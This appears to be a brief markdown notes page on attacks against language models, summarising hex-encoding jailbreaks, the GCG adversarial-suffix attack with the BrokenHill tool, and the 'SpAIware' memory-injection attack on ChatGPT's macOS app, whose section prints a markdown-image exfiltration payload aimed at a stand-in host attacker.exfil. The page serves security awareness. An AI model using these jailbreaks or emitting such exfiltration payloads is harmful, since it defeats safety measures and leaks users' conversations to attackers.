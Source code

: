 # AI Exploits

## 

- NIST Artificial Intelligence Risk Management Framework
- Google's Secure AI Framework
- OWASP Top 10 for LLM
- OWASP Top 10 for LLM Applications
- The [recently launched](https://www.darkreading.com/threat-intelligence/mitre-launches-ai-incident-sharing-initiative) MITRE ATLAS




## Encoding Attacks

Sometimes just hexadecimal is enough - [ChatGPT-4o Guardrail Jailbreak: Hex Encoding for Writing CVE Exploits - Marco Figueroa](https://0din.ai/blog/chatgpt-4o-guardrail-jailbreak-hex-encoding-for-writing-cve-exploitsi)


## Greedy Coordinate Gradient (GCG) Attack

[bishopfox.com - Broken Hill Attack Tool and GCG Attack](https://bishopfox.com/blog/brokenhill-attack-tool-largelanguagemodels-llm):
*A GCG attack begins with two inputs from the operator: a request that will be sent to an LLM, and the beginning of an ideal response that the LLM could send back, if the LLM were not conditioned or instructed to avoid providing that response*. The operator provides *Adversarial content* that *causes the LLM to instead predict that the most likely continuation is*. To highlight the cause of LLM response, it is the mechanic statistical matching of what it statistically matches as a complete response. *So the LLM will then continue to add more text until the response appears complete*, *...even if the LLM has been conditioned to not provide the type of information in the request, it is very likely to ignore that conditioning, because (to anthropomorphize a bit) the LLM can see that it has already agreed to provide the information, and therefore, statistically, the most likely text to follow is exactly the information it was conditioned not to provide.*

Tool: [GitHub BishopFox/BrokenHill](https://github.com/BishopFox/BrokenHill)
## SpAIware

The introduction of API call named `url_safe` in ChatGPT informs the client if it is safe to display a URL or an image to the user or not, but this a client side check; not server-side.

1. First a memory is injected with prompt to go to `http://attacker.exfil/p.txt`, which is destination of the exfiltration of future prompts.  The payload is markdown image syntax reference`![](http://attacker.exfil/0.png?chatgptmacos=http://attacker.exfil/p.txt)`

[YouTube EmbraceTheRed Demonstration](https://www.youtube.com/watch?v=zb0q5AW5ns8&themeRefresh=1)
[embracethered.com - hatgpt-macos-app-persistent-data-exfiltration/](https://embracethered.com/blog/posts/2024/chatgpt-macos-app-persistent-data-exfiltration/)
[thehackernews - chatgpt-macos-flaw-couldve-enabled-long](https://thehackernews.com/2024/09/chatgpt-macos-flaw-couldve-enabled-long.html)

Continuous Mitigation:
- Clear your ChatGPT memory and hope that the provider deletes your data


## References

[GitHub BishopFox/BrokenHill](https://github.com/BishopFox/BrokenHill)
[bishopfox.com - Broken Hill Attack Tool and GCG Attack](https://bishopfox.com/blog/brokenhill-attack-tool-largelanguagemodels-llm):
[YouTube EmbraceTheRed Demonstration](https://www.youtube.com/watch?v=zb0q5AW5ns8&themeRefresh=1)
[embracethered.com - hatgpt-macos-app-persistent-data-exfiltration/](https://embracethered.com/blog/posts/2024/chatgpt-macos-app-persistent-data-exfiltration/)
[thehackernews - chatgpt-macos-flaw-couldve-enabled-long](https://thehackernews.com/2024/09/chatgpt-macos-flaw-couldve-enabled-long.html)
[ChatGPT-4o Guardrail Jailbreak: Hex Encoding for Writing CVE Exploits - Marco Figueroa](https://0din.ai/blog/chatgpt-4o-guardrail-jailbreak-hex-encoding-for-writing-cve-exploitsi)
